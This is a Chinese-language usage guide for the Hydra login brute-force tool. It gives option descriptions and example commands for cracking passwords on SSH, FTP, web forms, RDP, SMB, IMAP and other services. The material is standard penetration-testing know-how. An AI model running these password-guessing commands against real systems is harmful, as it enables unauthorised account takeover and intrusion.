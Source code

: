 # hydra 爆破

该工具支持以下协议：Asterisk，AFP，Cisco AAA，Cisco auth，Cisco enable，CVS，Firebird，FTP，HTTP-FORM-GET，HTTP-FORM-POST，HTTP-GET，HTTP-HEAD，HTTP-POST ，HTTP-PROXY，HTTPS-FORM-GET，HTTPS-FORM-POST，HTTPS-GET，HTTPS-HEAD，HTTPS-POST，HTTP-Proxy，ICQ，IMAP，IRC，LDAP，MEMCACHED，MONGODB，MS-SQL，MYSQL ，NCP，NNTP，Oracle Listener，Oracle SID，Oracle，PC-Anywhere，PCNFS，POP3，POSTGRES，Radmin，RDP，Rexec，Rlogin，Rsh，RTSP，SAP / R3，SIP，SMB，SMTP，SMTP枚举，SNMP v1 + v2 + v3，SOCKS5，SSH（v1和v2），SSHKEY，Subversion，Teamspeak（TS2），Telnet，VMware-Auth，VNC和XMPP

## 用法

* **参数**

```shell
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] 
 
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT] 

-R 继续从上一次进度接着破解。 
-S 采用SSL链接。 
-s PORT 可通过这个参数指定非默认端口。 
-l LOGIN 指定破解的用户，对特定用户破解。 
-L FILE 指定用户名字典。 
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。 
-P FILE 大写，指定密码字典。 
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。 
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。 
-M FILE 指定目标列表文件一行一条。 
-o FILE 指定结果输出文件。 默认为：text, json, jsonv1
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。 
-t TASKS 同时运行的线程数，默认为16。 
-w TIME 设置最大超时的时间，单位秒，默认是30s。 
-v / -V 显示详细过程。
```

* **使用案例**

```shell
1、破解ssh： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 
 
2、破解ftp： 
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
 
3、get方式提交，破解web登录： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
 
4、post方式提交，破解web登录： 
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 
 
5、破解https： 
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
 
6、破解teamspeak： 
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
 
7、破解cisco： 
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
 
8、破解smb： 
hydra -l administrator -P pass.txt 10.36.16.18 smb 
 
9、破解pop3： 
hydra -l muts -P pass.txt my.pop3.mail pop3 
 
10、破解rdp： 
hydra ip rdp -l administrator -P pass.txt -V 
 
11、破解http-proxy： 
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
 
12、破解imap： 
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```

**项目地址：https://github.com/vanhauser-thc/thc-hydra**

